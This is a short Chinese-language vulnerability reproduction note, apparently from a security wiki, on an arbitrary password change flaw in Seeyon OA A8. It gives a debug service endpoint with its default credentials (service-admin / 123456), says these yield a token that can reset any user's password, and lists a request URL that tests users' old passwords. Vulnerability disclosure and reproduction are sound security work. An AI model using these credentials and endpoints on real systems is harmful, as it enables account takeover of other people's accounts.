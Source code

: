 致远OA A8 任意用户密码修改漏洞
==============================

一、漏洞简介
------------

二、漏洞影响
------------

致远OA A8

三、复现过程
------------

    http://www.0-sec.org/seeyon/services/authorityService?wsdl

通过调试接口的默认用户 userName:service-admin password:123456
获取万能Token之后可以修改任意用户密码。

![](./resource/致远OAA8任意用户密码修改漏洞/media/rId24.png)

访问

    http://www.0-sec.org/seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=zw&P_2_String=wooyun

返回false 说明zw密码不正确

![](./resource/致远OAA8任意用户密码修改漏洞/media/rId25.png)

修改密码

![](./resource/致远OAA8任意用户密码修改漏洞/media/rId26.png)

![](./resource/致远OAA8任意用户密码修改漏洞/media/rId27.shtml)
